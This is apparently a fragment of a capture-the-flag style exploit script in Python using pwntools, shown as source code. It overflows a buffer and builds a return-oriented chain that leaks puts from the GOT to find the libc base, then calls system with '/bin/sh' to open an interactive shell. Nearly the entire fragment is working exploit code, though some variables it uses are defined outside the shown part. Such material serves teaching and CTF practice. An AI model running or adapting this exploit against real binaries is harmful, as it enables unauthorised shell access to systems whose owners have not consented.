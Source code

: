 ```python
pop_rdi_pop_rbp_ret = 0x0000000000402640

info(f"puts plt: {hex(puts_plt)}")
info(f"puts got: {hex(puts_got)}")

# This stage leaks the real address of puts from the GOT.
# With that, we can calculate the libc base address.
# We also chain the _start address at the end to restart the program cleanly.
payload = b"a" * offset
payload += p64(pop_rdi_pop_rbp_ret)  # pop rdi; pop rbp; ret
payload += p64(puts_got)             # Address to leak
payload += p64(0xdeadbeef)           # Dummy value for rbp
payload += p64(puts_plt)             # Call puts
payload += p64(start_addr)           # Restart the program

r.sendline(payload)
r.recvline()

puts_real_addr = u64(r.recvline().strip().ljust(8, b'\x00'))
log.success(f"puts real addr: {hex(puts_real_addr)}")
libc_base = puts_real_addr - libc.symbols['puts']
log.success(f"libc base: {hex(libc_base)}")

try_once(r)  # Get another winning session to continue exploitation

system_addr = libc_base + libc.symbols['system']
binsh_addr = libc_base + next(libc.search(b"/bin/sh"))
log.success(f"system addr: {hex(system_addr)}")
log.success(f"/bin/sh addr: {hex(binsh_addr)}")

# This is the core exploitation step.
# Set up RDI to point to "/bin/sh" and call system().
# This should spawn a shell.
payload = b"a" * offset
payload += p64(0x000000000040201a)   # ret (for stack alignment)
payload += p64(pop_rdi_pop_rbp_ret)  # pop rdi; pop rbp; ret
payload += p64(binsh_addr)           # "/bin/sh"
payload += p64(0xdeadbeef)           # Dummy rbp
payload += p64(0x000000000040201a)   # ret (optional: alignment)
payload += p64(system_addr)          # Call system

r.sendline(payload)
r.interactive()
```
